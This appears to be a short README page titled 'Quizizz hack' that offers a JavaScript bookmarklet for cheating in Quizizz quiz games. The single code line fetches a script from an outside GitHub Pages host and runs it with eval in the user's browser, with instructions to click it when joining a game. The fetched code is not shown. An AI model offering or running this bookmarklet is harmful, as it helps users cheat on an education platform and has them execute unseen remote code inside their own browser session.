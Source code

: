 # Quizizz hack
## Bookmarklet
`javascript:fetch('https://thatfrueddued.github.io/JustSomeRandomFiles/GamerHax/Quizizz/Quizizz.js').then(function(response){response.text().then(function(text){eval(text);done();});});`  
  
Click this bookmarklet before you join a game, when you are entering your name.
